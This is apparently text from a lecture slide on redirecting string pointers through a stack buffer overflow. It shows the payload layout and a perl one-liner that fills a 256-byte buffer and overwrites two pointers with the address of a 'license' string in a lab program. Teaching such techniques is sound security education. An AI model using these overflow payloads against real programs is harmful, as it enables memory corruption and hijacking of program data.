

# Redirecting String Pointers
Input format (on my machine)
Fill Buffer (256)
Address of license (4 bytes)
Address of license (to redirect conf by license)
./strptr `perl -e 'print "A"x256; print"\x82\x85\x04\x08";print"\x82\x85\x04\x08"'`
0x08048582 (address of license)

23